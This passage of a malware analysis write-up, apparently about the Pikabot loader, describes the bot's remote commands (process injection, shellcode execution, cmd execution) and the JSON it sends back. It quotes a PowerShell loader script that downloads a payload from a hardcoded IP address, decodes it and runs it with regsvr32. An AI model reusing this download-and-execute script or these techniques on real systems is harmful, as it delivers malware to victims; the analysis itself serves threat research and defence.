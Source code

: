 
The output of the commands is sent to another subdirectory `messages/TRCsUVyMigZyuUQ` with the same encoding schema followed before. The commands are the following:

**knock timeout**
Seems to be not fully implemented but from the current state, it sends `Knock Timeout Changed!` to the server in the following JSON. It's used to delay any code execution on the victim machine.

```
 {"uuid": "%s", "task_id": %s, "execution_code": %d, "data": "

```

**additional**
Nothing new here, it has the same `whoami`, `ipconfig` and `screenshoot` commands explained before.

**dll (exe)**
Download another DLL or exe file and run it using Process injection technique. The bot responds with the following with the state of downloading process (in case of failure `Download Failed!`) and the state of the injection process (`Injection Success!` or `Injection Failed!`) but to another subdirectory `messages/DPVHLqEWR4uBk`

```
{"uuid": "%s", "file_hash": "%s", "task_id": %s}

```

**shellcode**
Download a shellcode and run by injecting it in a target process. Same as the DLL case

**cmd**
Execute cmd commands on the target machine. It runs the command with the same method explained previously.

### balancer and init

not implemented yet.

### Another Variants

[sample](https://bazaar.abuse.ch/sample/67c61f649ec276eb57fcfe70dbd6e33b4c05440ee10356a3ef10fad9d0e224ef/)
There are some other variants of the malware loader contains PowerShell script encrypted and stored on the `.rdata` section and it used to start the downloaded DLL using `regsvr32`
the following example script from [OALABS Blog](https://research.openanalysis.net/pikabot/yara/config/loader/2023/02/26/pikabot.html)

```powershell
$nonresistantOutlivesDictatorial = "$env:APPDATA\\Microsoft\\nonresistantOutlivesDictatorial\\AphroniaHaimavati.dll";
md $env:APPDATA\\Microsoft\\nonresistantOutlivesDictatorial;
Start-Process (Get-Command curl.exe).Source -NoNewWindow -ArgumentList '--url <https://37.1.215.220/messages/DBcB6q9SM6> -X POST --insecure --output ', $nonresistantOutlivesDictatorial;
Start-Sleep -Seconds 40;
$ungiantDwarfest = Get-Content $env:APPDATA\\Microsoft\\nonresistantOutlivesDictatorial\\AphroniaHaimavati.dll | %{[Convert]::FromBase64String($_)};
Set-Content $env:APPDATA\\Microsoft\\nonresistantOutlivesDictatorial\\AphroniaHaimavati.dll -Value $ungiantDwarfest -Encoding Byte;
regsvr32 /s $env:APPDATA\\Microsoft\\nonresistantOutlivesDictatorial\\AphroniaHaimavati.dll;

```
